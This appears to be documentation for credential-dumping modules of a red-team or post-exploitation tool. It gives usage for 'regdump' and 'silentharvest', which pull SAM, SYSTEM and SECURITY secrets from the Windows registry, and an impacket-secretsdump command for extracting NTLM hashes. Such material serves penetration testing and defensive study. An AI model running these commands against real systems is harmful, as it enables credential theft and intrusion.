

# Credential Dumping Modules <!-- omit from toc -->

## Contents <!-- omit from toc -->

- [Overview](#overview)
  - [regdump](#regdump)
  - [silentharvest](#silentharvest)

## Overview

The credential dumping modules provide commands for extracting credentials and secrets from Windows systems. The module contains the following commands:

```
 * regdump                  Dump SAM, SYSTEM and SECURITY from the Windows registry.
 * silentharvest            Gather SAM and SECURITY secrets using the SilentHarvest method of dumping registry values.
```

### regdump
Dump the SAM, SYSTEM, and SECURITY registry hives to disk for offline credential extraction. 

```
Usage  : regdump [path]
Example: regdump C:\Windows\Tasks

Optional arguments:
  path                      STRING     Output path for the dumped hives (default: current directory).
```

The output files can be used with tools like `impacket-secretsdump` to extract NTLM hashes.

```bash
impacket-secretsdump -sam sam.txt -system system.txt -security security.txt LOCAL
```

### silentharvest
Gather SAM and SECURITY secrets using the SilentHarvest method of dumping registry values. Requires `SeBackupPrivilege`, but not necessarily SYSTEM privileges.


```
Usage: silentharvest 
Example: silentharvest
```
Activate the required privilege first by running `enable-privilege SeBackupPrivilege`

